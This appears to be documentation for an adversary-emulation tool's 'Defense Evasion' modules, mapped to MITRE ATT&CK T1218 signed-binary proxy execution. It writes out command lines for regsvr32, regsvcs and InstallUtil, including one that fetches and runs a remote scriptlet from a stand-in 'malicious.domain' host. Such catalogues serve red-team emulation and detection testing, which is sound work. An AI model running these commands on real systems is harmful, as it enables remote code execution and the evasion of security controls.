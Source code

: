 Defense Evasion
^^^^^^^^^^^^^^^

=======================================
Signed Binary Proxy Execution: Regsvr32
=======================================
T1218.010_

.. _T1218.010: https://attack.mitre.org/techniques/T1218/010/


| This module uses the CreateProcess Win32 API to execute
| **regsvr32.exe /u /n /s /i:http://malicious.domain:8080/payload.sct scrobj.dll**


=============================================
Signed Binary Proxy Execution: Regsvcs/Regasm
=============================================
T1218.009_

.. _T1218.009: https://attack.mitre.org/techniques/T1218/009/


| This module uses the CreateProcess Win32 API to execute
| **C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe /U winword.dll**

==========================================
Signed Binary Proxy Execution: InstallUtil
==========================================
T1218.004_

.. _T1218.004: https://attack.mitre.org/techniques/T1218/004/


| This module uses the CreateProcess Win32 API to execute
| **C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfiles /LogToConsole=alse /U C:\Windows\Temp\XKNqbpzl.exe**